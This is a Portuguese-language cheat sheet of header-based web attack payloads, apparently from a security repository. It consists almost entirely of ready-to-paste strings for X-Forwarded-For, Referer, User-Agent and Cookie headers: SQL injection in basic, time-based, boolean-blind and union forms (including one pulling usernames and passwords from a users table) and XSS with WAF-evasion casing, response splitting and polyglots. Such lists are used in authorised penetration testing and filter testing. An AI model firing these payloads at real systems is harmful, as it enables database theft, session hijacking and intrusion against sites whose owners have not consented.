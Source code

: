 # XSS-Header-Based
payloads para SQL Injection e XSS baseados em cabeçalhos HTT, incluindo técnicas evasivas para bypass
## **SQL Injection (Header-Based)**
Esses payloads exploram **injeções SQL em cabeçalhos HTTP**, úteis quando a aplicação faz logs de requisições ou usa os valores internamente.

### **Básicos**  
```http
X-Forwarded-For: 1' OR '1'='1' -- 
X-Forwarded-Host: 1' OR '1'='1' -- 
Referer: 1' OR '1'='1' -- 
User-Agent: 1' OR '1'='1' -- 
Cookie: 1' OR '1'='1' -- 
```

### **Delay e Time-Based Blind SQLi**
```http
X-Forwarded-For: 1' AND (SELECT SLEEP(5))-- 
X-Forwarded-Host: 1' AND IF(1=1, SLEEP(5), 0)-- 
Referer: '; WAITFOR DELAY '0:0:5'--  
User-Agent: 1' AND (SELECT IF(1=1, SLEEP(5), 0))-- 
Cookie: ' OR pg_sleep(5) --  
```

### **Union-Based SQLi**
```http
X-Forwarded-For: ' UNION SELECT NULL, username, password FROM users -- 
X-Forwarded-Host: ' UNION SELECT NULL, database(), version() -- 
Referer: ' UNION SELECT NULL, @@version, user() -- 
User-Agent: ' UNION SELECT NULL, table_name FROM information_schema.tables -- 
```

### **Boolean-Based Blind SQLi**
```http
X-Forwarded-For: ' AND 1=1 -- (válido)  
X-Forwarded-For: ' AND 1=2 -- (falso)  
X-Forwarded-Host: ' AND (SELECT COUNT(*) FROM users) > 0 --  
Referer: ' AND (SELECT LENGTH(database())) > 0 --  
User-Agent: ' AND ASCII(SUBSTRING(database(),1,1)) > 64 --  
```

---

## **XSS (Header-Based)**
Esses payloads tentam injetar scripts maliciosos usando cabeçalhos HTTP.

### **Básicos**
```http
X-Forwarded-Host: "><script>alert('XSS')</script>  
X-Forwarded-For: '"><script>alert(document.domain)</script>  
Referer: "><img src=x onerror=alert(1)>  
User-Agent: '"><svg onload=alert(document.cookie)>  
Cookie: "><iframe src=javascript:alert(document.domain)>  
```

### **Evasão de Filtragem (Bypass WAF)**
```http
X-Forwarded-Host: "><ScRiPt>alert('XSS')</ScRiPt>  
X-Forwarded-For: '"><sVg oNlOaD=prompt(1)>  
Referer: "><IMG SRC=jAVasCript:alert(1)>  
User-Agent: '"><dEtAiLs OpEn oNToGgLe=confirm(1)>  
Cookie: "><IFRAME SRC=JaVaScRiPt:alert(document.domain)>  
```

### **XSS via HTTP Response Splitting**
```http
X-Forwarded-For: %0D%0ASet-Cookie:%20XSS=alert(document.cookie)  
Referer: %0D%0AContent-Length:%200%0D%0A%0D%0A<script>alert('XSS')</script>  
User-Agent: %0D%0AHTTP/1.1%20200%20OK%0D%0AContent-Type:%20text/html%0D%0A%0D%0A<script>alert(1)</script>  
```

### **Polyglot XSS**
```http
X-Forwarded-Host: jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//  
Referer: "><scrIpt sRC=data:text/javascript,alert(1)>  
User-Agent: javascript:"/*-/*`/*\`/*'/*"/**/(/* */prompt(1))//  
```
